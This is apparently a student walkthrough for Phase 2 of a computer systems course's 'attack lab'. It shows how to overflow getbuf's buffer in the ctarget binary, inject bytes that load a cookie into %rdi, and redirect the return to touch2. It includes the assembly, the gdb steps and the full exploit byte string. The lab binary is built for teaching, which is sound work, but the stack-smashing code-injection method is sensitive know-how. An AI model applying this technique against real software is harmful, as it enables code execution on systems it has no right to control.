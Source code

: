**UPDATED** 

Phase 2 involves injecting a small code and calling function touch2 while making it look like you passed the cookie as an argument to touch2

If you look inside the rtarget dump and search for touch2, it looks something like this:

```
000000000040178c <touch2>:
  40178c:	48 83 ec 08          	sub    $0x8,%rsp
  401790:	89 fe                	mov    %edi,%esi
  401792:	c7 05 e0 30 20 00 02 	movl   $0x2,0x2030e0(%rip)        # 60487c <vlevel>
  401799:	00 00 00 
  40179c:	3b 3d e2 30 20 00    	cmp    0x2030e2(%rip),%edi        # 604884 <cookie>
  4017a2:	75 1b                	jne    4017bf <touch2+0x33>
  4017a4:	bf a0 30 40 00       	mov    $0x4030a0,%edi
  4017a9:	b8 00 00 00 00       	mov    $0x0,%eax
  4017ae:	e8 8d f4 ff ff       	callq  400c40 <printf@plt>
  4017b3:	bf 02 00 00 00       	mov    $0x2,%edi
  4017b8:	e8 dc 04 00 00       	callq  401c99 <validate>
  4017bd:	eb 19                	jmp    4017d8 <touch2+0x4c>
  4017bf:	bf c8 30 40 00       	mov    $0x4030c8,%edi
  4017c4:	b8 00 00 00 00       	mov    $0x0,%eax
  4017c9:	e8 72 f4 ff ff       	callq  400c40 <printf@plt>
  4017ce:	bf 02 00 00 00       	mov    $0x2,%edi
  4017d3:	e8 73 05 00 00       	callq  401d4b <fail>
  4017d8:	bf 00 00 00 00       	mov    $0x0,%edi
  4017dd:	e8 ce f5 ff ff       	callq  400db0 <exit@plt>
```

If you read the instruction pdf, it says, "Recall that the first argument to a function is passed in register %rdi." 

So our goal is to modify the %rdi register and store our cookie in there.

So you have to write some assembly code for that task, create a file called phase2.s and write the below code, replacing the cookie and  with yours

```
  movq $0x434b4b70,%rdi /* move your cookie to register %rdi */
  retq                  /* return */
```

Now you need the byte representation of the code you wrote above. compile it with gcc then dissasemble it

```
gcc -c phase2.s
objdump -d phase2.o  > phase2.d 
```

Now open the file phase2.d and you will get something like below

```
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 70 4b 4b 43 	mov    $0x434b4b70,%rdi
   c:	c3                   	retq   
```

The byte representation of the assembly code is `48 c7 c7 70 4b 4b 43 c3`

Now we need to find the address of rsp register

run ctarget through gdb 

`gdb ctarget`

set a breakpoint at getbuf 

`b getbuf`

run ctarget

`r`

Now do 

`disas`
 
 You will get something like below (this doesn't match the above code as it is an updated version)
```
   0x000000000040182c <+0>:	  sub    $0x18,%rsp
   0x0000000000401830 <+4>:	  mov    %rsp,%rdi
   0x0000000000401833 <+7>:	  callq  0x401ab6 <Gets>
=> 0x0000000000401838 <+12>:	mov    $0x1,%eax
   0x000000000040183d <+17>:	add    $0x18,%rsp
   0x0000000000401841 <+21>:	retq   

```

Now we need to run the code until the instruction just below `callq  0x401ab6 <Gets>` so you will do something like

`until *0x401838` 

Then it will ask you type a string...type a string longer than the buffer(24 characters in this case). After that do

`x/s $rsp` 

You will get something like

```
(gdb) x/s $rsp
0x55620cd8:	"ldsjfsdkfjdslfkjsdlkfjsdlkfjsldkfjsldkjf" // the random string I typed
```
The address on the left side is what we want. `0x55620cd8`

Now, create a text file named phase2.txt which will look something like below and don't forget the bytes for rsp and touch2 go in reverse
```
48 c7 c7 70 4b 4b 43 c3 /*this sets your cookie*/
00 00 00 00 00 00 00 00 /*padding to make it 24 bytes*/
00 00 00 00 00 00 00 00 /*padding to make it 24 bytes*/
d8 0c 62 55 00 00 00 00 /* address of register %rsp */
8c 17 40 00 00 00 00 00 /*address of touch2 function */
```
Run it through hex2raw

`./hex2raw < phase2.txt > raw-phase2.txt`

Finally, you run the raw file

`./ctarget < raw-phase2.txt`

What the exploit does is that first it sets register rdi to our cookie value is transferred to $rsp register
so after we enter our string and getbuf tries to return control to the calling function, we want it to point to the rsp address 
so it will execute the code to set the cookie and finally we call touch2 after the cookie is set.

```
Cookie: 0x434b4b70
Type string:Touch2!: You called touch2(0x434b4b70)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
